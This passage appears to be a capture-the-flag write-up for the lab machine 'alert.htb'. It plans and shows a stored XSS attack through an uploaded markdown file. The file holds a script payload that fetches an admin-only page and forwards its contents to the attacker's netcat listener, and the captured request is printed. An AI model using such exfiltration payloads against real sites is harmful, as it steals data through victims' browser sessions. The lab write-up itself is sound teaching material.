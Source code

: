 - Scan results show an interesting page **messages.php** 
- A previous scan using a different wordlist shows a directory named **messages** but we get a 403 forbidden error upon accessing it. Admin most likely has access
- When we navigate to **messages.php**, we just get a blank page. Could mean that the content of the page is only visible to admin

Planned attack vector:
1. Create JS payload that fetches the **messages.php** page and forwards it to attacker machine. enclose it in `<script>` tags since the backend processes markdown/HTML
2. Upload it and submit
3. Copy **"Share Markdown"** link and submit it through the **Contact Us** page
4. Make sure to have a listener set up to catch the forwarded request


# **Exploitation**
## 1. **Initial Access**
Here is the **exploit.md** file:

```html
<!-- XSS Payload -->
<script>
fetch("http://alert.htb/messages.php")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.14.163:9001/?data=" + encodeURIComponent(data));
  })
  .catch(err => console.error("Error:", err));
</script>
```

This is the request header that `nc` caught:
```
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.163] from (UNKNOWN) [10.10.11.44] 39530
GET /?data=%3Ch1%3EMessages%3C%2Fh1%3E%3Cul%3E%3Cli%3E%3Ca%20href%3D%27messages.php%3Ffile%3D2024-03-10_15-48-34.txt%27%3E2024-03-10_15-48-34.txt%3C%2Fa%3E%3C%2Fli%3E%3C%2Ful%3E%0A HTTP/1.1
Host: 10.10.14.163:9001
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/122.0.6261.111 Safari/537.36
Accept: */*
Origin: http://alert.htb
Referer: http://alert.htb/
Accept-Encoding: gzip, deflate
```

The data parameter contains the source of the **messages.php** page. This is what it contains after URL decoding:
```html
<h1>Messages</h1><ul><li><a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a></li></ul>
```
